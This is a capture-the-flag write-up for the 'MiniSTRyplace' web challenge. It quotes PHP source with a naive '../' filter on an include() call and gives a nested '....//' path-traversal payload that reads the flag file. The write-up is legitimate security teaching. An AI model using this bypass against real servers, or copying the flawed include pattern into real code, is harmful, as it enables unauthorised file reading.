 # MiniSTRyplace

## Description

Let's read this website in the language of Alines. Or maybe not?
This challenge will raise 33 euros for a good cause.

178.62.30.167:32247

## Solution

In the source we see index.php

```php
<html>
    <header>
        <meta name='author' content='bertolis, makelaris'>
        <title>Ministry of Defence</title>
        <link rel="stylesheet" href="/static/css/main.css">
        <link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootswatch/4.5.0/slate/bootstrap.min.css"   >
    </header>

    <body>
    <div class="language">
        <a href="?lang=en.php">EN</a>
        <a href="?lang=qw.php">QW</a>
    </div>

    <?php
    $lang = ['en.php', 'qw.php'];
        include('pages/' . (isset($_GET['lang']) ? str_replace('../', '', $_GET['lang']) : $lang[array_rand($lang)]));
    ?>
    </body>
</html> 
```

we see in the lang get parameter, the string "../" is replaced by "".
So, to get an LFI we need nested ../

consider the string "....//", after replacing the "../" with "" the resulting string is "../" allowing us to climb directories!

we see in the Dockerfile that the flag is at root so with the payload

`http://178.62.30.167:32247/?lang=....//....//....//....//flag`

we can read the flag!

CHTB{b4d_4li3n_pr0gr4m1ng} 